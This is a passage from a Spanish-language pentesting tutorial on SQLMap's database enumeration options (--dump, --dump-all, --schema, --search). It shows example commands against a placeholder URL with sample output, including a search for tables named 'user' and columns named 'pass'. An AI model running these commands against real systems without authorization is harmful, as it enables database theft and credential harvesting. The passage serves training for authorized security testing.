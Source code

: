 
### Dump completo

En lugar de recuperar el contenido tabla por tabla, podemos recuperar todas las tablas de la base de datos de interés omitiendo por completo el uso de la opción -T (por ejemplo, --dump -D testdb). 

Con solo utilizar el modificador --dump sin especificar una tabla con -T, se recuperará todo el contenido actual de la base de datos. En cuanto al modificador --dump-all, se recuperará todo el contenido de todas las bases de datos.

En tales casos, también se recomienda al usuario incluir el modificador --exclude-sysdbs (por ejemplo, --dump-all --exclude-sysdbs), que indicará a SQLMap que omita la recuperación del contenido de las bases de datos del sistema, ya que normalmente es de poco interés para los pentesters.


## Enumeración avanzada

### DB Schema

Si quisiéramos recuperar la estructura de todas las tablas para tener una visión general completa de la arquitectura de la base de datos, podríamos utilizar el modificador --schema.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+
```

### Buscando datos concretos

Cuando se trata de estructuras de bases de datos complejas con numerosas tablas y columnas, podemos buscar bases de datos, tablas y columnas de interés utilizando la opción --**search**. 

Esta opción nos permite buscar nombres de identificadores utilizando el operador **LIKE**. Por ejemplo, si buscamos todos los nombres de tablas que contienen la palabra clave «user».

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
```